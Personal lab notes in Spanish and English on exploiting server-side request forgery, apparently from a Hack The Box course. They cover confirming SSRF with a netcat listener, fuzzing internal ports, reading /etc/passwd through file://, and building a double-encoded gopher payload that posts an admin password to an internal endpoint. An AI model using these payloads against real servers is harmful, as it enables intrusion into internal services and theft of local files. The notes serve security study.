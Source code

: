 
Server-side request forgery es una vulnerabilidad donde una web hace request a ciertos recursos de otros servidores según el input del usuario y que puede ser vulnerado haciendo request a sitios que no debería 

## URL-schemes

- `http://` and `https://`: These URL schemes fetch content via HTTP/S requests. An attacker might use this in the exploitation of SSRF vulnerabilities to bypass WAFs, access restricted endpoints, or access endpoints in the internal network
- `file://`: This URL scheme reads a file from the local file system. An attacker might use this in the exploitation of SSRF vulnerabilities to read local files on the web server (LFI)
- `gopher://`: This protocol can send arbitrary bytes to the specified address. An attacker might use this in the exploitation of SSRF vulnerabilities to send HTTP POST requests with arbitrary payloads or communicate with other services such as SMTP servers or databases
## SSRF Confirmation

Para saber si es vulnerable , en burp en la request pon una url que sea una ip tuya  o simplemente la loop ip  `127.0.0.1` seguida de un puerto y haz 
`nc -lnvp <puerto>`  para ver si hace una request a tu server

## Enumeratin g the System

1. Hacer una wordlist de puertos
```shell-session
 seq 1 10000 > ports.txt
```
2. fuzzear en la request de burp
```
http://127.0.0.1:<puerto fuzz>
```
suele estar abierto el `3306` para bases de datos SQL


## Exploiting SSRF

### Basic

-Una vez tenemos confirmado SSRF podemos enumerar los directorios del servidor al que hace la request simplemente fuzzeandola.
### LFI

-A su vez podemos hacer LFI haciendo `file:///etc/passwd` en ves de la url

### POST

En caso de que queramos hacer una peticion POST a un servidor gracias a un SSRF no la podremos usar a menos que usemos el protocolo gopher

REQUEST:
```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

GOPHER
1. URL encodear la request
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
2. URL encodear la url de antes otra vez
```
gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin
```
ya ta